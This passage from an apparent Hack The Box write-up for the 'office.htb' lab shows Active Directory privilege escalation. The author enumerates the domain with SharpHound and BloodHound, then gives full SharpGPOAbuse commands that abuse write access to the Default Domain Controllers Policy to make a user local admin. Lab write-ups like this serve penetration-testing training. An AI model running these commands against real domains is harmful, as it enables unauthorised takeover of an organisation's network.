 ![image76](../resources/fb07013ed0bc41159218d8cb883d4d60.png)

Hhogan is part of the **GPO Managers**

- Upload Sharphound and run:

```bash
.\SharpHound.exe --CollectionMethods All --Domain office.htb --ZipFileName loot.zip

```
- Looking in BloodHound:
GPO Managers has GenericWrite to the Default Domain Controller Policy.


![image77](../resources/bffd4acdf59b42bca9cdfdf0fc84d2b1.png)

- Download SharpGPOAbuse:
<https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master>

- Copy SharpGPOAbuse.exe to the Windows target machine and run:

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hhogan --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"

```
**OR**

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author office.htb\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators hhogan /add" --GPOName "DEFAULT DOMAIN CONTROLLERS POLICY"

```
(The first one seems to stay whereas this second command, the user gets wiped from the admin group after a few minutes)
